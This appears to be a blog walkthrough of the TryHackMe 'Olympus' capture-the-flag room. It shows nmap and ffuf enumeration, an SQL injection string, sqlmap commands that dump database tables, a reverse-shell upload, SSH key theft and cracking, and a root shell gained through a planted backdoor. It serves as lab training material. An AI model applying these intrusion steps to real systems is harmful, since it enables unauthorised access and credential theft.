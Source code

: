 ```yaml
---
title: "Conquer Olympus Using SQL Injection and Claim the Throne in this CTF Found on TryHackMe"
slug: olympus
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


This walkthrough covers the [Olympus](https://tryhackme.com/room/olympusroom) CTF found on [TryHackMe](https://tryhackme.com/). The goal of this challenge is to exploit an SQLi vulnerability in a CMS, use sqlmap to acquire user credentials by extracting a database, identify a subdomain hosting a chat application, upload a reverse shell to establish a foothold on the system and take advantage of a poorly managed SUID binary to escalate privileges.

### Step 1: What's Out There?

```bash
nmap -sS -sV -sC -p 22,80 olympus.thm --min-rate=1000
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135195190/4f9965b8-825d-42ef-9211-c24ecfd32696.webp){: .center-image }

### Step 2: FFUF

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt:FUZZ -u http://olympus.thm/FUZZ -fc 403
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135218898/f1601161-af87-4569-8bec-af42899fc8e0.webp){: .center-image }

We discovered a directory named `~webmaster`, which is where the CMS is located.

### Step 3: SQLi

Testing the Victor CMS search field feature reveals an SQLi:

```sql
'SELECT * FROM users WHERE username='' and password='' OR 1=1;
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135249671/7a5a0911-850b-4022-8390-f5132fe2c69f.webp){: .center-image }

Let's capture this with `Burp Suite` and plug it into `sqlmap` to automate our injection attack.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135258695/bc797866-ff1c-4232-a7df-47350afc8f02.webp){: .center-image }

Copy this over to a text editor and run it through `sqlmap`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135267192/06a8ef5f-d0ff-4373-ad80-84b2bdf0edb2.webp){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135274129/7dcdf2db-1f04-4e90-8bd4-79b752237fc1.webp){: .center-image }

We discovered a flag in olympus, let's dump it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135284186/255dad89-c893-4faa-a7f8-79aa62c608b7.webp){: .center-image }

Let's obtain our first flag.

```bash
sqlmap -r req.txt --batch --dump -T flag -D olympus
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135304775/1f9277f9-a4db-4a22-842c-a59309af7a2b.jpeg){: .center-image }

Now let's see what that user's table can offer us.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135315500/d0fe3ef4-d4f8-4aa6-83c2-95d9d74ab2cc.jpeg){: .center-image }

Juicy credentials, we can crack the password hash to *prometheus* and use it to log in to the chat application.

### Step 4: Enumerate Subdomain

We discovered three users: *root*, *zeus*, and *prometheus*. Additionally, we discovered a subdomain called `chat` that can be added to our `/etc/hosts` list.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135339781/9f65783f-2537-4336-bcdb-8d556637c10e.webp){: .center-image }

Let's enumerate the newly discovered subdomain.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135354579/a14f5d24-a480-4ca3-a718-d93c9f4b3308.webp){: .center-image }

I'm sure the uploads directory will play an important role later, in the meantime let's see if we can log in with these credentials.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135363114/4f647e65-7e79-4401-a1bc-67e6e1329080.webp){: .center-image }

And we're in. There looks to be an upload feature, let's see if we can upload a reverse shell.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135371739/99d49d50-44ff-49ae-aa77-8634ee42d4a3.webp){: .center-image }

It looks to have been uploaded somewhere, but not sure where. Let's go back to `sqlmap` and dump the chats table to see if the file name was changed upon uploading.

```bash
sqlmap -r req.txt --batch --dump -T chats -D olympus
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135388161/79fa1af1-215a-4c87-9ce9-87b7daa747ae.webp){: .center-image }

Looks like it did. Let's copy this and see if we can visit and go to it using the `/uploads/` directory we found earlier.

Going to the path drops us into a shell. Searching for SUID binaries reveals `cputils`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135397019/2a652788-32b6-4cf5-93f2-6daa330e48df.webp){: .center-image }

We can copy over *zeus* `id_rsa key` and then ssh in with it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135403791/bb79bcd0-4905-4d25-a28a-faca1fe4aacb.webp){: .center-image }

Crack it using `ssh2john` and `john-the-ripper`.

### Step 5: Privesc and Root

After looking around the file system for a while we discovered this:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135428251/53529f09-b0a5-4e7b-a46b-194d8143c831.webp){: .center-image }

Inside the PHP file seems to be a backdoor.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135434883/16fa8740-ccc0-4415-be08-737d6bbbf9fd.webp){: .center-image }

Running `uname -a; w; /lib/defended/libc.so.99` drops us into a root shell.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135443964/fd401057-3d13-4b48-a153-67b44dde8add.jpeg){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691135446720/6ce4f8c5-2dd4-4245-b58c-75aeb82aa8ef.jpeg){: .center-image }

This box was very difficult for me. I don't consider myself to be that knowledgeable on SQLi attacks, so I had to resort to a lot of googling to help me through. I will definitely give this box several more runs as I need to sharpen my command injection skills. As always, Happy Hacking!